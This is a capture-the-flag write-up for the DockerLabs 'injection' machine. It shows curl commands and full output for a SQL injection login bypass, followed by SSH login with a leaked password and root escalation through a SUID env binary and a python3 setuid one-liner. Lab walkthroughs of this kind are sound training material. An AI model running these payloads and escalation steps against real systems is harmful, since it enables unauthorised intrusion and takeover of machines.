

# injection

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| injection | El Pingüino de Mario | easy/facil | dockerlabs |

**Summary:** The injection machine presented a straightforward but well-illustrated SQL injection exploitation chain against a PHP login form. The web application on port 80 served a login page whose `name` parameter was vulnerable to a classic authentication bypass via a tautology payload (`admin' OR '1'='1'-- -`). An initial POST request without cookie persistence confirmed the redirect to `/acceso_valido_dylan.php`, leaking both the username `dylan` and a password rendered directly within the authenticated page's HTML body: `KJSDFG789FGSDF78`. A second request with cookie following enabled captured the full authenticated response, confirming the credential pair. SSH access as `dylan` was then established using this password. Once on the machine, a SUID binary search revealed that `/usr/bin/env` carried the SUID bit set, an unconventional and exploitable configuration. Running `env /bin/bash -p` spawned a shell with an effective UID of root, which was then fully materialised into a real root session via a `python3` `setuid(0)` call, confirmed with `su -`.

---

## Reconnaissance

**1. Machine Deployment**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/injection]
└─$ sudo bash auto_deploy.sh injection.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/injection]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-29 19:43 +0700
Nmap scan report for bicho.dl (172.17.0.2)
Host is up (0.000014s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 6E:05:81:8C:A6:4C (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.63 seconds
```

The scan revealed SSH on port 22 and an Apache web server on port 80. The HTTP title "Iniciar Sesión" indicated a Spanish-language login page, and the absence of the `httponly` flag on the `PHPSESSID` cookie was a minor additional observation.

---

## Initial Access

### SQL Injection Authentication Bypass

**3. Inspecting the Login Page**

Visiting the web application revealed a minimal login form accepting a username (`name`) and password.



**4. Testing the SQL Injection Payload**

A classic tautology bypass payload was submitted via curl to the `name` parameter. The `302 Found` response redirected to `/acceso_valido_dylan.php`, confirming that the authentication query was manipulated and the username `dylan` was disclosed in the redirect target URL.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/injection]
└─$ curl -s -i -X POST http://$ip/index.php -d "name=admin' OR '1'='1'-- -&password=wtf&submit=Login" 
HTTP/1.1 302 Found
Date: Wed, 29 Jul 2026 12:51:44 GMT
Server: Apache/2.4.52 (Ubuntu)
Set-Cookie: PHPSESSID=qcir6qmqsmsq24muqq2pvh20kv; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: /acceso_valido_dylan.php
Content-Length: 2921
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Iniciar Sesión</title>
    <link rel="stylesheet" href="styles.css">
    <style>
        /* Estilos adicionales */
        body {
            font-family: Arial, sans-serif;
            background-color: #1f1f1f; /* Color de fondo oscuro */
            color: #ffffff; /* Color del texto */
            margin: 0;
            padding: 0;
            display: flex;
            justify-content: center; /* Centra horizontalmente */
            align-items: center; /* Centra verticalmente */
            height: 100vh; /* Ajusta la altura para ocupar toda la pantalla */
        }

        .background {
            background-color: #333333; /* Color de fondo del recuadro */
            padding: 20px;
            border-radius: 8px;
            box-shadow: 0px 0px 10px rgba(255, 255, 255, 0.1); /* Sombra */
            width: 80%;
            max-width: 400px;
        }

        h2 {
            text-align: center;
            color: #ffffff; /* Color del título */
        }

        .form-group {
            margin-bottom: 20px;
        }

        label {
            display: block;
            margin-bottom: 5px;
            color: #ffffff; /* Color de las etiquetas */
        }

        input[type="text"],
        input[type="password"] {
            width: 100%;
            padding: 10px;
            border: 1px solid #555555; /* Color del borde del campo de entrada */
            border-radius: 5px;
            background-color: #222222; /* Color de fondo del campo de entrada */
            color: #ffffff; /* Color del texto dentro del campo de entrada */
        }

        button[type="submit"] {
            width: 100%;
            padding: 10px;
            border: none;
            border-radius: 5px;
            background-color: #007bff; /* Color de fondo del botón */
            color: #ffffff; /* Color del texto del botón */
            cursor: pointer;
            transition: background-color 0.3s;
        }

        button[type="submit"]:hover {
            background-color: #0056b3;
        }

        .error-message {
            color: red;
            text-align: center;
            margin-bottom: 10px;
        }
    </style>
</head>
<body>

    <div class="background">
        <h2>Login</h2>
        <form action="/index.php" method="post">
            <div class="form-group">
                <label for="username">User:</label>
                <input type="text" id="name" name="name" required>
            </div>
            <div class="form-group">
                <label for="password">Password:</label>
                <input type="password" id="password" name="password" required>
            </div>
            <button type="submit" name="submit" >Login</button>
        </form>
    </div>
</body>
</html>
```

**5. Following the Redirect to Recover the Password**

The same request was repeated with the `-L` flag to follow the redirect and `-c cookies.txt` to persist the session cookie. The authenticated page at `/acceso_valido_dylan.php` rendered Dylan's plaintext password directly in the HTML body: `KJSDFG789FGSDF78`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/injection]
└─$ curl -s -i -X POST http://$ip/index.php -d "name=admin' OR '1'='1'-- -&password=wtf&submit=Login" -L -c c
ookies.txt
HTTP/1.1 302 Found
Date: Wed, 29 Jul 2026 12:53:22 GMT
Server: Apache/2.4.52 (Ubuntu)
Set-Cookie: PHPSESSID=vs4jtb0kg2tivbha6aqq4bkja9; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: /acceso_valido_dylan.php
Content-Length: 2921
Content-Type: text/html; charset=UTF-8

HTTP/1.1 200 OK
Date: Wed, 29 Jul 2026 12:53:22 GMT
Server: Apache/2.4.52 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 982
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Bienvenida</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            background-color: #1f1f1f;
            color: #ffffff; /* Color del texto */
            margin: 0;
            padding: 0;
        }

        .mensaje {
            background-color: #333333; /* Color de fondo del mensaje */
            width: 80%;
            max-width: 600px;
            margin: 50px auto;
            padding: 20px;
            border-radius: 8px;
            box-shadow: 0px 0px 10px rgba(255, 255, 255, 0.1); /* Sombra */
        }

        .mensaje p {
            font-size: 18px;
            line-height: 1.6;
        }
    </style>
</head>
<body>
    
    <div class="mensaje">
        <p>Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78</p>
    </div>
</body>
</html>
```

The authenticated response confirmed the credential pair: `dylan:KJSDFG789FGSDF78`.

### SSH Access as dylan

**6. Logging in via SSH**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/injection]
└─$ ssh dylan@$ip
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.18.33.2-microsoft-standard-WSL2 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@efb7a196ed3f:~$ id;whoami;hostname
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan)
dylan
efb7a196ed3f
```

A foothold was established as `dylan`.

---

## Privilege Escalation

### SUID env Binary

**7. Searching for SUID Binaries**

A filesystem-wide search for SUID binaries was performed to identify non-standard escalation vectors.

```bash
dylan@efb7a196ed3f:~$ find / -type f -perm -4000 -exec ls -la {} \; 2>/dev/null
-rwsr-xr-- 1 root messagebus 35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 338536 Jan  2  2024 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 44808 Feb  6  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 35192 Feb 21  2022 /usr/bin/umount
-rwsr-xr-x 1 root root 55672 Feb 21  2022 /usr/bin/su
-rwsr-xr-x 1 root root 47480 Feb 21  2022 /usr/bin/mount
-rwsr-xr-x 1 root root 40496 Feb  6  2024 /usr/bin/newgrp
-rwsr-xr-x 1 root root 43976 Jan  8  2024 /usr/bin/env
-rwsr-xr-x 1 root root 72072 Feb  6  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 59976 Feb  6  2024 /usr/bin/passwd
-rwsr-xr-x 1 root root 72712 Feb  6  2024 /usr/bin/chfn
```

The standout finding was `/usr/bin/env` with the SUID bit set, a well-known GTFOBins escalation vector. Since `env` executes programs while preserving or setting environment variables, and it runs as root due to the SUID bit, calling `env /bin/bash -p` spawns a bash process with an effective UID of 0.

**8. Exploiting the SUID env Binary for Root**

```bash
dylan@efb7a196ed3f:~$ env /bin/bash -p
bash-5.1# id
uid=1000(dylan) gid=1000(dylan) euid=0(root) groups=1000(dylan)
bash-5.1# python3 -c 'import os; os.setuid(0);os.setgid(0);os.system("/bin/bash")'
root@efb7a196ed3f:~# su -
root@efb7a196ed3f:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
efb7a196ed3f
```

Running `env /bin/bash -p` produced a shell with `euid=0(root)`. A `python3` one-liner then called `setuid(0)` and `setgid(0)` to materialise real root, confirmed by `su -` which produced a clean session with all supplementary groups resolved to root only.

---

## Attack Chain Summary
1. **Reconnaissance**: Nmap identified SSH on port 22 and Apache on port 80. The web application served a PHP login form titled "Iniciar Sesión".
2. **Vulnerability Discovery**: The `name` parameter of the login form was vulnerable to SQL injection. A tautology bypass payload (`admin' OR '1'='1'-- -`) redirected to `/acceso_valido_dylan.php`, leaking the username `dylan` from the URL itself.
3. **Exploitation**: Following the redirect with curl revealed the authenticated page, which rendered Dylan's plaintext password `KJSDFG789FGSDF78` directly in the HTML body. The credential pair was used to log in via SSH.
4. **Internal Enumeration**: A SUID binary search identified `/usr/bin/env` with the SUID bit set, an abnormal configuration that constitutes a direct privilege escalation path via GTFOBins.
5. **Privilege Escalation**: Executing `env /bin/bash -p` spawned a shell with `euid=0`. A `python3` `setuid(0)` and `setgid(0)` call fully dropped privileges to real root, confirmed with `su -`.
